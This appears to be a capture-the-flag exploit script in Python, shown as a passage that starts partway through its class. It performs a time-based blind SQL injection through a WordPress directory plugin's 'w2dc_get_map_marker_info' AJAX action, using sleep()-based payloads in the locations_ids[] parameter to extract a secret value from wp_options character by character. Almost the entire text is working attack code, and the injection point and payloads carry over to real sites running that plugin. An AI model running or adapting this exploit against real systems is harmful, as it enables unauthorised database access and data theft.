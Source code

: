```python
        self.header = {"User-Agent": "42", "Accept-Encoding": "identity"}
        self.hex_ctf_flag = "0x6374665f666c6167"
        self.patern_flag = "cybercon{"
        self.charset = string.ascii_uppercase + string.digits + "}"

    def encode_char(self, body: str):
        enc = quote_plus(body, safe="")       
        return enc.replace("%5B%5D", "%255B%255D")  

    def buil_url(self, b_encoded: str):
        return f"{self.baseURL}/?u={self.u}&b={b_encoded}"

    def send_request(self, b_encoded: str) -> float:
        url = self.buil_url(b_encoded)
        start = time.perf_counter()
        requests.get(url, headers=self.header, timeout=self.timeout)
        return time.perf_counter() - start
    
    def base_line(self) -> str:
        body = "action=w2dc_get_map_marker_info&locations_ids[]=1"
        return self.encode_char(body)

    def char_encode(self, pos: int, ch: str):
        hexch = ch.encode().hex()
        cond = (f"substring((select+option_value+from+wp_options+where+option_name={self.hex_ctf_flag}"
                f"+limit+1),{pos},1)=0x{hexch}")
        body = ("action=w2dc_get_map_marker_info&locations_ids[]="
                f"(select+if({cond},sleep({self.sleep}),0)+from+(select+1)x)")
        return self.encode_char(body)
    
    def extract_flag(self, max_len=64):
        base_time = min(self.send_request(self.base_line()) for _ in range(2))
        diffTime = base_time + self.sleep * 0.6
        print(f"[*] BaseTime ~{base_time:.2f}s; diffTime ~{diffTime:.2f}s")
        flag = self.patern_flag
        start_pos = len(self.patern_flag) + 1
        print(f"[*] Brute Force Flag: '{self.patern_flag}'")

        for pos in range(start_pos, start_pos + max_len):
            found = False
            for ch in self.charset:
                time = self.send_request(self.char_encode(pos, ch))
                if time >= diffTime:
                    flag += ch
                    print(f"[+] Found Char {pos}: '{ch}'  (DiffTime={time:.2f}s)  -> {flag}")
                    found = True
                    break
            if not found:
                print(f"[*] Stop at pos {pos}.")
                break
            if flag.endswith('}'):
                print("[*] Found Char '}' — Done Flag.")
                break

        print(("[+] DONE FLAG: " + flag) 
              if flag.endswith('}')
                else "[-] NOT FOUND FLAG. TRY AGAIN")

if __name__ == "__main__":
    BASE_URL = "http://127.0.0.1:8000"
    exploit = Exploit(BASE_URL)
    exploit.extract_flag()
```